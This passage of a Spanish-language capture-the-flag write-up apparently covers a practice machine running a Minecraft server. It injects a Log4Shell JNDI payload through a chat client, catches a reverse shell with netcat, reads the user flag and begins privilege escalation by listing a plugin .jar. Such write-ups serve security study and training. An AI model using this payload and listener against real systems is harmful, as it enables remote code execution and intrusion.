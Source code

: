 - nos ponemos en escucha.

```bash
➜  ~ rlwrap nc -nlvp 4444
listening on [any] 4444 ...
```

- Ahora inyectamos el comando.

```bash
(ENV) ➜  pyCraft git:(master) python3 start.py
Enter your username: miguelito
Enter your password (leave blank for offline mode):
Enter server host or host:port (enclose IPv6 addresses in square brackets): 10.10.11.249
Connecting in offline mode...
Connected.
${jndi:ldap://10.10.14.63:1389/a}
```

- Recibimos la shell.

```bash
➜  log4j-shell-poc git:(main) ✗ rlwrap nc -nlvp 4444
listening on [any] 4444 ...
connect to [10.10.14.63] from (UNKNOWN) [10.10.11.249] 49705
Microsoft Windows [Version 10.0.17763.5329]
(c) 2018 Microsoft Corporation. All rights reserved.

c:\users\svc_minecraft\server>whoami
whoami
crafty\svc_minecraft

c:\users\svc_minecraft\server>
```

## User flag

- Podemos ver la flag.

```bash
c:\users\svc_minecraft\server>type C:\Users\svc_minecraft\Desktop\user.txt
type C:\Users\svc_minecraft\Desktop\user.txt
df1f5b5d2fa525f1f5e37c202cc07b98
```

## Escalada de Privilegios

- Vemos un `.jar`.

```bash
c:\Users\svc_minecraft\server\plugins>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is C419-63F6

 Directory of c:\Users\svc_minecraft\server\plugins

10/27/2023  02:48 PM    <DIR>          .
10/27/2023  02:48 PM    <DIR>          ..
10/27/2023  02:48 PM             9,996 playercounter-1.0-SNAPSHOT.jar
               1 File(s)          9,996 bytes
               2 Dir(s)   3,809,091,584 bytes free
```
